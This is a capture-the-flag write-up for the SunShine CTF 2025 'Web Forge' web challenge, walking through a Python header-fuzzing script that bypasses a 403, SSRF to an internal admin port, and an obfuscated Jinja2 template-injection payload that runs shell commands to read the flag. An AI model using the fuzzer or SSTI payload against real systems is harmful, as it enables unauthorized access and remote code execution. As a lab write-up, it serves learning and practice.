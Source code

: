 +++
date = '2025-10-06T18:00:44+07:00'
title = 'SunShine CTF 2025 - Web Forge Write-up'
tags = ['SunShine CTF 2025', 'CTFs']
description = 'Use of automated fuzzing tools are allowed for this challenge. Fuzzing. Not Crawling. All endpoints aside from one are rate limited.'
draft = false

[cover]
  image = '/images/posts/sunshinectf.png'
  alt = 'SunShine CTF 2025 - Web Forge'
  caption = 'SunShine CTF 2025 - Web Forge'
  relative = false
+++

> **Room / Challenge:** Web Forge Hub (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** SunShine CTF 2025
-   **Challenge:** Web Forge Hub (web)
-   **Target / URL:** `https://wormhole.sunshinectf.games/`
-   **Difficulty:** `Medium`
-   **Points:** `363`
-   **Date:** `29-09-2025`

---

## Goal

We have to get the flag through SSRF Tool

## My Solution

This is the home page when we visit the website.

![Guide image](/images/posts/web-forge-1.png)

Through the content of the home page, and the menu links we just have the SSRF Tool which is in `/fetch` url where we can take step in it.

Access to `/fetch` we can receive this message `403 Forbidden: missing or incorrect SSRF access header`. It gives us a hint: we're missing a header attribute that it needs.

I found out `/robots.txt` is accessible in this website. It has this content:

```
User-agent: *
Disallow: /admin
Disallow: /fetch

# internal SSRF testing tool requires special auth header to be set to 'true'
```

Therefore, that special header has to be set to `true`.

Use a `header_fuzzer.py` script, we will find that header.

```python
import requests

def find_ssrf_access_header(url):
    """
    Tests a list of highly probable custom HTTP headers and a specific cookie
    to find the one that grants access to the SSRF endpoint by bypassing the
    403 Forbidden response.
    """
    print(f"[*] Starting access bypass fuzzing against: {url}")

    # List of highly probable custom headers for internal/CTF access bypass
    possible_headers = [
        # --- Core SSRF & Auth Bypass Headers ---
        "X-SSRF-Access",
        "SSRF-Access",
        "X-SSRF-Auth",
        "SSRF-Auth",
        "X-Allow-SSRF",
        "Allow-SSRF",
        "Enable-SSRF",
        "X-Enable-SSRF",
        "X-Internal-SSRF",
        "Internal-SSRF",
        "X-Access-Allowed",
        "Access-Allowed",
        "X-Bypass",
        "Bypass-Security",
        "X-Security-Override",
        "Security-Override",
        "X-Challenge-Bypass",
        "Allow"
    ]

    # The required value based on the robots.txt hint
    required_value = 'true'
    found_bypasses = []

    # We use a 403 status code as the failure indicator
    EXPECTED_FAILURE_CODE = 403

    # Set up generic headers for testing
    generic_headers = {'User-Agent': 'CTF-Header-Fuzzer/1.0'}

    # --- 1. Test standard headers ---
    for header_name in possible_headers:
        # Construct the headers dictionary for the request
        test_headers = generic_headers.copy()
        test_headers[header_name] = required_value

        print(f"[*] Testing Header: {header_name} -> {required_value}...", end=" ")

        try:
            # Using GET for the initial check, as it's less likely to trigger rate limits
            response = requests.get(url, headers=test_headers, timeout=5)
            status_code = response.status_code
            print(f"Status: {status_code}")

            if status_code != EXPECTED_FAILURE_CODE:
                found_bypasses.append({
                    "type": "Header",
                    "name": header_name,
                    "value": required_value,
                    "status": status_code,
                    "preview": response.text[:50].replace('\n', ' ')
                })
                print(f"[!!! SUCCESS !!!] Header: {header_name} changed the response!")

        except requests.exceptions.RequestException as e:
            print(f"Error connecting: {e}")

    print("\n--- Fuzzing Complete ---")
    if found_bypasses:
        print("[+] Potential Access Bypass(es) Found:")
        for bypass in found_bypasses:
            print(f"    - Type: {bypass['type']} | Name: {bypass['name']}: {bypass['value']} | Status: {bypass['status']} | Preview: '{bypass['preview']}...'")
        print("\nUse the successful method (Header or Cookie) along with the 'url' parameter in a POST request to access http://127.0.0.1/admin.")
    else:
        print("[-] No success. The required bypass might be non-standard or missing from the list.")

if __name__ == "__main__":
    TARGET_URL = "https://wormhole.sunshinectf.games/fetch"
    find_ssrf_access_header(TARGET_URL)
```

We can see that `Allow -> True` gives us access to this internal SSRF Tool.

![Guide image](/images/posts/web-forge-2.png)

We cannot add header in normal browser, so from now I will use **Postman** to interact with this internal SSRF Tool _(you can use Burp Suite or whatever you're familiar with)_.

![Guide image](/images/posts/web-forge-3.png)

Let's try type target to `http://127.0.0.1/admin` to see how this tool works since the flag is in `/admin`.

![Guide image](/images/posts/web-forge-4.png)

It said I missing template query param. I try `http://127.0.0.1/admin?template=something` and I got this error.

```
ERROR: HTTPConnectionPool(host='127.0.0.1', port=80): Max retries exceeded with url: /admin?template=something (Caused by NewConnectionError('<urllib3.connection.HTTPConnection object at 0x7989bc777240>: Failed to establish a new connection: [Errno 111] Connection refused'))
```

`Connection refused` maybe I still get access to the correct `/admin` so I have to port fuzzing. I found port 8000 is open. Type `http://127.0.0.1:8000/admin?template=something` to the target.

![Guide image](/images/posts/web-forge-5.png)

Hmm, so whatever I type to the `template` it will return the same. I got stuck here a little but the website need template so I try SSTI payloads online.

You can get a lot from [https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads).

I tried all of them and there is just one payload works.

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

![Guide image](/images/posts/web-forge-6.png)

The result is:

```
uid=999(unprivileged) gid=999(unprivileged) groups=999(unprivileged)
```

Now we get access to it, just exploit with bash commands:

Payload:

```
http://127.0.0.1:8000/admin?template={{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls -la')|attr('read')()}}
```

Use `ls -la`, the result is:

![Guide image](/images/posts/web-forge-7.png)

Use `cat flag.txt` for somehow it returns `Nope.` so I just run `cat flag` to get the flag

![Guide image](/images/posts/web-forge-8.png)

Flag: `sun{h34der_fuzz1ng_4nd_ssti_1s_3asy_bc10bf85cabe7078}`
